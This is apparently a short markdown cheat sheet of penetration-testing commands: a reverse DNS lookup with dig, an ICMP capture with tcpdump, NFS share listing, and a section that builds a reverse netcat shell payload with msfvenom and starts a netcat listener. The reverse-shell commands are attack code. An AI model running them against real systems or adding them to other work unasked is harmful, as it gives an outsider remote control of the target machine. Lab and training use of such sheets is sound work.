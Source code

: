```yaml
---
description: penetration tests CheatSheet - In this CheatSheet, you will find a series of practical example commands for running penetration tests and getting the most of penetration tests.
---
```


# Cli Commands Collation

## Find PTR Owner - Reversal Look Up

```bash
dig 0.168.192.in-addr.arpa. NS
```

## Listent for Ping/icmp on interface

```bash
sudo tcpdump ip proto \\icmp -i eth0
```

## Reverse Netcat Shell

Payload R(row)

```bash
msfvenom -p cmd/unix/reverse_netcat lhost=10.11.19.49 lport=4444 R
```

listener:

```bash
nc -lvp 4444
```

## NFS Show Mount

```bash
showmount -e 10.10.87.232
```
